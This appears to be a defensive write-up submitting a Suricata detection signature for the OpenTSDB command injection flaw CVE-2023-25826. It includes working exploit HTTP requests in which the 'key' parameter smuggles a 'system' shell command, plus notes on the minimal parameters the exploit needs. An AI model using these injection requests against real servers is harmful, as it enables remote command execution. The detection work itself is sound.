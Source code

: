 # ET Open Submission
### May 6th, 2024
### OpenTSDB arbitrary commands injection（CVE-2023-25826）


## Resources

1. [https://www.synopsys.com/blogs/software-security/opentsdb.html](https://www.synopsys.com/blogs/software-security/opentsdb.html)
2. [https://github.com/vulhub/vulhub/tree/master/opentsdb/CVE-2023-25826#opentsdb-arbitrary-commands-injectioncve-2023-25826](https://github.com/vulhub/vulhub/tree/master/opentsdb/CVE-2023-25826#opentsdb-arbitrary-commands-injectioncve-2023-25826)

### The exploit:

There must be at least one metric existing on the server for RCE. You can create your own metric as well.

Request sent to create a metric called `sys.cpu.nice`
```
POST /api/put/ HTTP/1.1
Host: your-ip:4242
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Connection: close
Content-Length: 150

{
    "metric": "sys.cpu.nice",
    "timestamp": 1346846400,
    "value": 20,
    "tags": {
       "host": "web01",
       "dc": "lga"
    }
}
```

The exploit is ran against the `key` parameter.
```
GET /q?start=2000/10/21-00:00:00&m=sum:sys.cpu.nice&o=&ylabel=1&xrange=&y2range=[42:42]&key=%3Bsystem%20%22touch%20/tmp/poc%22%20%22&wxh=1516x644&style=linespoint&baba=lala&grid=t&json HTTP/1.1
Host: your-ip:4242
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
```

The most important part of this is happening in the http.uri.

`/q?start=2000/10/21-00:00:00&m=sum:sys.cpu.nice&o=&ylabel=1&xrange=&y2range=[42:42]&key=%3Bsystem%20%22touch%20/tmp/poc%22%20%22&wxh=1516x644&style=linespoint&baba=lala&grid=t&json`

After some testing with the code, I have found that every parameter is required but it doesn't seem to matter what some of the contents are.

Findings on each parameter:

- start just needs to exist with a number.
- xrange can be empty or non existant
- The smallest the WXH can be is 100x100 and the largest it can be is 32767x32767
- "style" must satisfy the pattern (linespoint|points|circles|dots)
- baba doesn't seem to need to exist.
- json needs to be there.

Example of a modified and working URI.

`/q?start=5&ylabel=1&y2range=[00:00]&style=linespoint&key=%3Bsystem "touch /tmp/poc1" "&wxh=32767x100&grid=2&json&m=sum:sys.cpu.nice`

I think the meat of this sig might fall in the `key=%3Bsystem%20%22<OS Command>%22%20%22` or `key=;system "<OS Command>" "`

Now I swear there is a blog somewhere about catching generic bash commands for PCRE in a sig but I, for the life of me, have no clue where it is now. I would run it for the `key=;system "<OS Command>" "` 

## Signature

```alert http $EXTERNAL_NET any -> $HOME_NET any (msg:"OpenTSDB arbitrary commands injection (CVE-2023-25826)"; flow:established,to_server; http.method; content:"GET"; bsize:3; http.uri; content:"|2f|q|3f|"; startswith; content:"key|3d 3b|system|20 22|"; fast_pattern; content:"|22 20 22|"; distance:3; within:500; content:"m|3d|sum|3a|"; content:"ylabel=";  pcre:"/style|3d|(linespoint|points|circles|dots)/R"; content:"start|3d|"; pcre:"/y2range|3d|\[[0-9]{1,2}:[0-9]{1,2}\]/Ri"; sid:1; rev:1; metadata:attack_target Server, created_at 2024_05_06, deployment Perimeter, deployment Internal, former_category EXPLOIT, signature_severity Major, tag Exploit, updated_at 2024_05_06;)```

[Pcap Zip](https://github.com/eatinsundip/Suricata/files/15341109/90a3efa157c3e6d.zip)


[https://dalton.securitymidwest.net/dalton/job/18e7f569a8f358f4](https://dalton.securitymidwest.net/dalton/job/18e7f569a8f358f4)

